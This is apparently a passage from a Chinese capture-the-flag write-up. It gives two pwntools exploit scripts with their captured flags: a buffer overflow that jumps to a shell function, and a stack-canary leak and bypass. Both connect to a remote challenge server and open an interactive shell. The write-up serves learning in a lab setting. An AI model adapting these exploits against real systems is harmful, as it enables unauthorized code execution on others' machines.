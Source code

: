 flag{721eadea-8dc8-410a-943c-7e0558499773}

```shell
from pwn import *
io = 0
def isDebug(debug):
    global io
    if debug:
        io = process('t2')
    else:
        io = remote('101.36.122.23', 10002)

def pwn():   # shell : 0x804849B
    #payload = 'aaaaaaaa' + p64(841)
    
    payload = flat('a' * 8, p32(841),'a'*12,p32(0x0804849B))
    print(payload)
    print(len(payload))
    #io.send(payload)
    io.sendline(payload)
    io.interactive()
if __name__ == '__main__':
    isDebug(0)
    pwn()

```

### Canary

首先覆盖canary首位'\x00'，然后p.recv(3)，接着进入 vulu函数，进行变量覆盖，115和 37120 徒手推出

flag{869e5795-d09c-4ba1-abe1-168ecb551ef0}

```python
from pwn import *

p = remote('101.36.122.23', 10003)
context.log_level = 'debug'

payload = 'a' * 4 + 'b'
p.sendafter('[+]How to bypass canary?', payload)
p.recvuntil('b')
can = u32('\x00' + p.recv(3))

hack = 0x80485cb
payload  = 'a' * 4 + p32(0x73) + p32(0x9100) + p32(can) + p32(0) * 3
payload += p32(hack)
p.sendline(payload)

p.interactive()
```



## Algorithm
